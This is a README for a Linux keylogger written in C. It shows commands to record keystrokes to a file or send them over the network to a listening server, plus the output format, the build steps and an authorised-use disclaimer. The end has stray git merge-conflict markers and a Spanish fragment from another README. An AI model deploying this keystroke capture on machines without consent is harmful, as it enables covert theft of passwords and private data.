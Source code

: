 # keylog

A simple keylogger for Linux written in C. The current version will attempt to detect your keyboard event file automatically. 

## Usage

### Client

#### File

```bash
cd keylog/
sudo ./keylog -f file-to-write-to.txt
```

This will log all keystrokes to the specified file while the program is running.

#### Network

```bash
cd keylog/
sudo ./keylog -n hostname
```

This will send all keystrokes to the server running on `hostname`.

### Server


#### stdout

```bash
cd keylog/
./server
```

This will write all keystrokes received from the client to stdout.

#### File

```bash
cd keylog/
./server -f file-to-write-to.txt
```

This will write all keystrokes received from the client to the specified file.

## Output Format

Each key press will cause a string representing that key to be written to the
chosen location, followed by a newline. When the program quits, an extra newline will be added.

#### Example

Typing `hello world` and then quitting the program with `Ctrl-C` will cause the chosen location to contain the following.

```
H
E
L
L
O
SPACE
W
O
R
L
D
LEFTCTRL
C
```

## Building

```bash
cd keylog/
make
```

# Disclaimer

This code was created entirely out of an interest in learning about linux keyboard events. It should never be used on any machine where you are not authorised to log keystrokes.

=======
# keylogger_linux
Keylogger escrito en C para plataformas Linux
>>>>>>> 8fadee64d2b57cb9548bd8826828e84d2817ff33
